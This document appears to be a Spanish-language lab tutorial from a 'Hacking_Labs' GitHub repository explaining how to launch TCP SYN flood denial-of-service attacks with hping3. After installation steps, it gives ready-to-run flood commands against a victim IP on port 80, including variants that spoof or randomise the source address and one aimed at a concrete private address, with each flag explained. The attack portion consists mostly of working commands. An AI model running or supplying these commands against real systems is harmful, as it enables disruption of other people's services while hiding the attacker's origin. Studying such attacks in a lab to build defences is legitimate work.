 > ### Trabajando con TCP-SYN Flood / SYN-ACK: HPing3 :computer:
> <b>Hping3</b> es una aplicación de Kali Linux que permite analizar y ensamblar paquetes TCP/IP, aunque se utiliza para enviar paquetes TCP, UDP y RAW-IP. Su uso va desde el simple análisis de los paquetes, hasta probar la eficacia de un firewall a través de diferentes protocolos, la detección de paquetes sospechosos o modificados e incluso la protección frente a ataques DoS de un sistema o de un firewall.
> Veamos diversos tipos de ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), lanzamos el comando o, si no está disponible, instalaremos el paquete mediante el código:
<b>

```
apt-get install hping3
```
</b>

- <b>Paso 2</b>: Podemos realizar un ataque muy sencillo de tipo DDoS con el comando:
<b>

```
hping3 -p 80  -S --flood [ip_victima]
```
</b>
Se puede comprobar que <b>-p</b> es utilizado para determinar el puerto, que <b>-S</b> activa la flag SYN del paquete TCP-IP, y que <b>--flood</b> indica que el envío de paquetes se realizará de la manera más rápida posible. Además, podemos encubrir el origen con múltiples variantes

<b>

```
hping3 -a [ip_atacante_falsa] -p 80  -S --flood [ip_victima] # IP de origen encubierta
```
</b>

<b>

```
hping3 --rand-source -p 80  -S --flood [ip_victima] # IP de origen generada aleatoriamente
```
</b>

<b>
```
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.47
```
</b>
Podemos comprobar que las variables <b>-c</b> determina la cantidad de paquetes que se enviarán, que <b>-S</b> activa la flag SYN del paquete TCP-IP, que <b>-p</b> es utilizado para determinar el puerto al que realizar el ataque, <b>-d</b> determina el tamaño de los paquetes que se envían y que <b>-w</b> sirve para mostrar las respuestas Windows.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_4.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_4.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_4.png" width="50%">
</picture>